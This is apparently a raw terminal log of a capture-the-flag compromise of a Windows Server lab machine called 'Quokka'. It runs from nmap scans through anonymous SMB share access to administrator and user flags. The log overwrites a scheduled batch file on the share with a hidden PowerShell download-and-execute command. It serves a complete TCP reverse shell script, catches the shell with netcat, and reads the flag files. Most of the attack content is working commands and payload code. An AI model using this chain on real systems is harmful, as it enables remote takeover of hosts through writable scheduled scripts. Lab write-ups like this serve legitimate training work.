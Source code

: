 └─$ cat scan.txt
# Nmap 7.95 scan initiated Thu Sep 25 15:33:23 2025 as: /usr/lib/nmap/nmap --privileged -sS -p- --open --min-rate 5000 -n -Pn -oN scan.txt 192.168.69.7
Nmap scan report for 192.168.69.7
Host is up (0.00047s latency).
Not shown: 58816 closed tcp ports (reset), 6706 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
MAC Address: 08:00:27:8E:CC:2E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

# Nmap done at Thu Sep 25 15:33:36 2025 -- 1 IP address (1 host up) scanned in 13.09 seconds
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ 


====================================================================================================================================================================================
──(kali㉿kali)-[~/Documents/Quokka]
└─$ cat fullscan.txt 
# Nmap 7.95 scan initiated Thu Sep 25 15:34:40 2025 as: /usr/lib/nmap/nmap --privileged -sVC -p135,139,445,47001,49664,49665,49666,49667,49668,49669,49670,5985,80 -n -Pn -vvv -oN fullscan.txt 192.168.69.7
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 192.168.69.7
Host is up, received arp-response (0.00022s latency).
Scanned at 2025-09-25 15:34:40 EDT for 59s

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 128 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Portfolio y Noticias Tech de Quokka 
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 128 Windows Server 2016 Datacenter 14393 microsoft-ds
5985/tcp  open  http         syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 08:00:27:8E:CC:2E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63225/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 62068/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58078/udp): CLEAN (Timeout)
|   Check 4 (port 64926/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: WIN-VRU3GG3DPLJ, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:8e:cc:2e (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
| Names:
|   WIN-VRU3GG3DPLJ<00>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WIN-VRU3GG3DPLJ<20>  Flags: <unique><active>
| Statistics:
|   08:00:27:8e:cc:2e:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: WIN-VRU3GG3DPLJ
|   NetBIOS computer name: WIN-VRU3GG3DPLJ\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-09-25T21:35:34+02:00
| smb2-time: 
|   date: 2025-09-25T19:35:35
|_  start_date: 2025-09-25T19:28:48
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 25 15:35:39 2025 -- 1 IP address (1 host up) scanned in 59.71 seconds
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ 

====================================================================================================================================================================================


┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ smbclient -L //192.168.69.7 -N        

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Admin remota
        C$              Disk      Recurso predeterminado
        Compartido      Disk      
        IPC$            IPC       IPC remota
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.69.7 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ 


====================================================================================================================================================================================





smbclient \\\\192.168.69.7\\Compartido




smb: \Proyectos\Quokka\> ls
  .                                   D        0  Sun Oct 27 10:33:54 2024
  ..                                  D        0  Sun Oct 27 10:33:54 2024
  Código                             D        0  Sun Oct 27 10:58:54 2024
  Diseño                             D        0  Sun Oct 27 10:33:54 2024
  Documentación_Interna.docx         A       71  Sun Oct 27 10:33:54 2024
  Manual_Quokka.pdf                   A        0  Sun Oct 27 10:33:54 2024

                7735807 blocks of size 4096. 5005345 blocks available


smb: \Proyectos\Quokka\> cd Código\
smb: \Proyectos\Quokka\Código\> ls
  .                                   D        0  Sun Oct 27 10:58:54 2024
  ..                                  D        0  Sun Oct 27 10:58:54 2024
  index.html                          A       52  Sun Oct 27 10:33:54 2024
  mantenimiento - copia.bat           A     1252  Sun Oct 27 10:41:43 2024
  mantenimiento.bat                   A      343  Sun Oct 27 10:58:54 2024
  README.md                           A       56  Sun Oct 27 10:33:54 2024

                7735807 blocks of size 4096. 5005345 blocks available
                
smb: \Proyectos\Quokka\Código\> get mantenimiento.bat
getting file \Proyectos\Quokka\Código\mantenimiento.bat of size 343 as mantenimiento.bat (334.9 KiloBytes/sec) (average 55.1 KiloBytes/sec)

smb: \Proyectos\Quokka\Código\> pwd
Current directory is \\192.168.69.7\Compartido\Proyectos\Quokka\Código\


smb: \Proyectos\Quokka\Código\> SMBecho failed (NT_STATUS_CONNECTION_RESET). The connection is disconnected now

                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ 






====================================================================================================================================================================================


                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$  cat Backup_Policy.txt 
Pol�tica de backups: Se realizar�n copias de seguridad incrementales cada 5 d�as.
                                                                                                                                                                                     


====================================================================================================================================================================================

                                                                                                                                                                                     
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ file mantenimiento.bat 
mantenimiento.bat: DOS batch file, ISO-8859 text, with CRLF line terminators
 

┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ cat mantenimiento.bat 
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo m�s aqu�...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.36:8000/shell.ps1')"

:: Fin del script
exit

====================================================================================================================================================================================


https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

# Reverse PowerShell



┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ cat shell.ps1 
# Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$client = New-Object System.Net.Sockets.TCPClient('192.168.69.3',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
                                                                                                                                                            




====================================================================================================================================================================================
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ vi mantenimiento.bat 


                                                                                                                                    
┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ cat mantenimiento.bat 
@echo off
:: Mantenimiento del sistema de copias de seguridad
:: Este script es ejecutado cada minuto

REM Pista: Tal vez haya algo m�s aqu�...

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.69.3:8000/shell.ps1')"

:: Fin del script
exit


┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ smbclient //192.168.69.7/Compartido -N -c "put mantenimiento.bat Proyectos/Quokka/Código/mantenimiento.bat"
putting file mantenimiento.bat as \Proyectos\Quokka\Código\mantenimiento.bat (334.9 kb/s) (average 335.0 kb/s)





┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ python3 -m http.server                              
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.69.7 - - [25/Sep/2025 16:18:10] "GET /shell.ps1 HTTP/1.1" 200 -






====================================================================================================================================================================================








┌──(kali㉿kali)-[~/Documents/Quokka]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.69.3] from (UNKNOWN) [192.168.69.7] 49721
ls


    Directorio: C:\Windows\system32


PS C:\Windows\system32> whoami
win-vru3gg3dplj\administrador

====================================================================================================================================================================================



 
PS C:\Users> cd Administrador

    Directorio: C:\Users\Administrador\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       27/10/2024     16:16             30 admin.txt                                                             


PS C:\Users\Administrador\Desktop> type admin.txt
j9eCpd89VGOscar4nQp8e842mUOb8U


====================================================================================================================================================================================

PS C:\Users> ls


    Directorio: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       27/10/2024     16:14                0mar                                                                  
d-----       09/06/2024     13:16                Administrador                                                         
d-----       27/10/2024     16:26                Invitado                                                              
d-r---       09/06/2024     13:16                Public                                                                


PS C:\Users> cd 0mar


PS C:\Users\0mar\Desktop> ls


    Directorio: C:\Users\0mar\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       27/10/2024     16:16             25 user.txt                                                              


PS C:\Users\0mar\Desktop> type user.txt
9OWiub9aDwcULNxs4w80W63Jl




PS C:\Users\0mar\Desktop> 


====================================================================================================================================================================================

====================================================================================================================================================================================

====================================================================================================================================================================================

